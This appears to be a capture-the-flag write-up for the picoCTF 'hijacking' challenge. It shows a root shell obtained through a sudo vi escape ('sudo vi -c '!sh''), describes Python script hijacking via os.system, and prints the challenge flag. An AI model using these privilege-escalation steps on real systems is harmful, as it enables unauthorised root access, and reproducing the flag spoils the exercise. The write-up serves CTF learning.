 ##Challenge: hijacking

##Category: Binary Exploitation

##Description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

###Hints:

####1. Check for Hidden files

####2. No place like Home:)

Logging into the server, I first ran ls -la and saw a hidden file labeled .server.py, suggesting it is a Python script. Here are its contents:

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

In short, it just collects the IP address of the picoCTF website...not much. After much hammering the server with different ideas and failing, I idscovered a vulnerability on the server. I typed in sudo -l, which shows what operations I can perform with sudo privileges. Here is what the command output:

> Matching Defaults entries for picoctf on challenge:
>    env_reset, mail_badpass,
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
>
>User picoctf may run the following commands on challenge:
>    (ALL) /usr/bin/vi
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

So, I have permission to run sudo on vi, a text editor, and I can run .server.py with python3 as root with sudo. I then found a small command that I could use to pop a root shell:

```bash sudo vi -c '!sh'```

To break the command down, vi has a -c argument in which u can supply a command, which in this case is popping a root shell with !sh. Thus, I found the flag file in /root/.flag.txt and got the flag.

Now, when I got the flag, it seemed that I might have used an inintented solution, as it suggests Python library hijacking, which is editing a Python library file or script in order to execute malicious code. The contents of sudo -l suggest I have to power to execute the .server.py script under root conditions, so the intended way seems to be to insert some code in any Python library or script to spit out the flag. I thus implemented some os.system() commands into .server.py, and boom, there's the flag.

####References: [1](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

###Flag: picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}

Solved by giggsterpuku
